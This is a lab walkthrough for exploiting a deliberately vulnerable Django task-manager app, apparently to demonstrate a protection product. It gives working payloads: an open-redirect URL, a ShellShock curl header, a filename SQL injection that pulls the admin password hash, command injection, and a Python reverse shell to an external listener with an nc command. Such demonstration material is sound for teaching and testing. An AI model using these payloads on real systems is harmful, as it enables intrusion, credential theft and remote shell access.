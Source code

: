 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:

In the Policies section of your application group, click the 'configure policy' icon that corresponds to 'Open Redirect'.

In the Open Redirect Policy Configuration, click the '+' and add a rule to allow redirections that occur naturally within the application.

For example, if you're running the application on http://127.0.0.1:8000, add a rule that looks like this:

http://127.0.0.1:8000/*

You can, then, enter text to preview the match with:

http://127.0.0.1:8000/taskManager/login
-or-
http://127.0.0.1:8000/taskManager/logout 

Also, for SQL Injection, click the 'configure policy' icon and enable the algorithms of interest.

## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, App Protect's Malicious Payload algorithms will pick up on the attempts.
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.

For a more "interesting" demonstration, you can inject a python reverse shell.  Reverse shells are commonly used to remotely control the locally exploited application.

Also in the same location within the application, pick any file from your local computer, but for the payload use:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```
Note:  netcat syntax may vary from system to system.

